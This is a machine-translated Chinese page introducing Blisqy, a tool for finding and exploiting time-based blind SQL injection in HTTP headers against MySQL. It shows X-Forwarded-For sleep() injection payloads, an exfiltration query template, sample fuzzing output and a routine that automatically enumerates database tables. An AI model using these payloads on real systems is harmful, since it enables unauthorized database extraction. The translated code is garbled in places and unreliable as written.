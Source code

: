 # Blisqy:利用 HTTP 头中基于时间的盲 SQL 注入

> 原文：<https://kalilinuxtutorials.com/blisqy-sql-injection-http-headers/>

[![Blisqy : Exploit Time-Based Blind-SQL Injection In HTTP-Headers](img/fbaef9d3a0c7efce2ce11de7a9b048bf.png "Blisqy : Exploit Time-Based Blind-SQL Injection In HTTP-Headers")](https://1.bp.blogspot.com/-bcMN1ZSwQ3I/XRUIBM2g7aI/AAAAAAAABH4/j7v3KOjiycMFkWQ7OllBlVbD9tr5XYrmQCLcBGAs/s1600/Screenshot%25281%2529.png)

Blisqy 是一个工具，帮助网络安全研究人员在 HTTP 头上找到基于时间的盲 SQL 注入，并利用相同的漏洞。

该漏洞通过盲 SQL 注入对可打印的 ASCII 字符进行逐位运算，从数据库(目前仅支持 MySQL/MariaDB)中缓慢虹吸数据。

为了实现与其他 Python 工具的互操作性，并使其他用户能够利用 Blisqy 中提供的功能，此处的模块可以导入到其他基于 Python 的脚本中。

在测试基于时间的盲目 SQL 注入时，任何网络延迟或拥塞都会影响您的模糊化或利用的有效性。

为了补偿可能导致延迟的网络滞后和不确定性，Blisqy 时间比较是动态的，它在每次测试的运行时进行计算。

测试利用`greenlet`(轻量级协作调度执行单元)在`libevevent`循环之上提供一个高级同步 API。

它提供了一种在短时间内进行有效载荷测试的快速有效的方法，而且，一个特定的测试不应该影响另一个测试，因为它们不是在顺序方法中完全完成的。

它现在支持对 HTTP 头进行基于时间的盲目 SQL 注入的模糊化，并且为了可移植性，主要功能(模糊化和利用)被分离到独立的文件中。

**也可阅读-[Vulnx:一个智能 Bot 自动外壳注入器，可检测多种类型的 CMS 中的漏洞](https://kalilinuxtutorials.com/vulnx-vulnerabilities-cms/)**

**起毛起泡**

要使用模糊功能，请在 Python 脚本中导入以下模块，并提供一个目标和模糊数据，如下所示:

从 lib.blindfuzzer 导入 blindSeeker

目标参数应该是 Dictionary/JSON 格式，例如(*注意变量数据类型)*:

Server = ' 192 . 168 . 56 . 101 '
Port = 80
Index = 1
Method = ' GET '
header file = " fuzz-data/headers/default _ headers . txt "
injection file = " fuzz-data/payloads/MySQL _ time . txt "
target _ params = {
' Server ':Server，
'port': Port，【T8]' Index ':Index，
' header file ':头文件

一旦提供了目标参数，就调用 fuzzer，如下所示:

vulns = blind seeker(target _ params)
vulns . fuzz()

你可以检查这个例子提供的`FindBlindSpot.py`。

**样本模糊输出**

如果你成功了，你应该得到一份“注射”测试的报告。请注意，尽管 Blisqy 在测试时试图补偿网络延迟和拥塞，但在继续之前对报告的积极测试进行验证测试是很重要的。

下面是一个示例报告:

==================== [关键术语]= = = = = = = = = = = = = = = = =
Index =配置常数(延迟)
Base Index Record = Fuzzing 之前的服务器 Ping
Benching Record = Base Index Record+Index
Fuzzing Record =处理带有索引的请求所用的时间
= = = = = = = = = = = = = = = = = = = = = = = = = = = =[逻辑]= = = = = = = = = = = = = = = = = = = = = = = =
如果 Fuzzing Record 大于 Benching Record，【否则，视为负面。

[+]注入:X-Forwarded-For:'或 sleep(1)#

[+]表头:X-Forwarded-For

[*]索引记录:0.000160932540894 [* ]基准记录:1.00016093254
[*]模糊记录:9.01
[！]测试 436 是可注射的。
————————————————————————
[+]注入:X-Forwarded-For:'或 sleep(1)='
[+]表头:X-Forwarded-For

[*]指数记录:0.000378847122192 [* ]板凳记录:1.00037884712【T22]测试 438 是可注射的。
———————————————

**利用 Blisqy 开发**

找到潜在的基于时间的盲 SQL 注入后，您可以准备一个脚本来利用这个易受攻击的 Web 应用程序。

正如 fuzzer 一样，您可以在 Python 脚本中导入利用模块，并为利用操作定义一个模板。以下是如何在 Python 脚本中导入模块的示例:

from lib.blindexploit 导入查询

接下来，您需要提供您的目标的详细信息，以及利用它的目标参数。下面是利用模糊器发现的盲 sql 注入的示例实现:

目标数据应该采用 Dictionary/JSON 格式，指定服务器、端口、找到的易受攻击的头及其值(一些应用程序将需要或检查某个值)。另外*注意可变数据类型*。

target = {
' server ':' 192 . 168 . 56 . 101 '，
'port': 80，
' vulnHeader ':' X-Forwarded-For '，
'headerValue': 'fuzzer'
}

目标参数应该允许用户指定一些与开发偏好相关的选项。

target param = {
' sleep time ':0.1，
'payload': 'pass '，
'mysqlDig': 'yes '，
'interactive': 'on '，
'verbosity': 'high'
}

*   **sleepTime** 是有效载荷中使用的延迟
*   **有效负载**是使用自定义 SQL 查询(如`select @@hostname`)运行漏洞利用的选项。默认选项是`'pass'`。
*   **mysqlDig** 支持自动利用，并枚举模式中所有可用的表。
*   **交互**是一个选项，使用户能够与开发例程交互。当您想跳到数据库中感兴趣的部分时，这很方便。
*   **详细度**可以是高、中、低。这只是控制来自开发例程的输出信息。

在提供了目标及其参数之后，接下来要提供的是开发例程的模板。Blisqy 提供了一种方式，用户可以指定在哪里注入 exfiltration SQL 有效负载和`sleeptime`延迟。下面是上一小节提供的示例报告中一个已发现漏洞的实现示例。

在 X-Forwarded-For 标头上发现注入:

或睡眠(1)= '

本次特定注射的模板:

sqli = " "或 if((*sql*)，sleep(*time*)，0)和' 1'='1 "

在运行期间，`*sql*`将被替换为 SQL 注入有效载荷，`*time*`将被替换为睡眠延迟()。

一旦所有这些都完成了，最后一部分就是实例化开发例程，让`**MysqlDigger()**`方法完成工作。

**#创建实例** blind SQL = SQL engine(target，targetParam，sqli)

**#枚举 MySql 数据库** BlindSql。MysqlDigger()

您可以查看提供的这个示例的`ExploitBlindSpot.py`。

以下是一个利用操作的示例:

![](img/b1844ebc2dae615e6572693be4bce728.png)[**Download**](https://github.com/JohnTroony/Blisqy)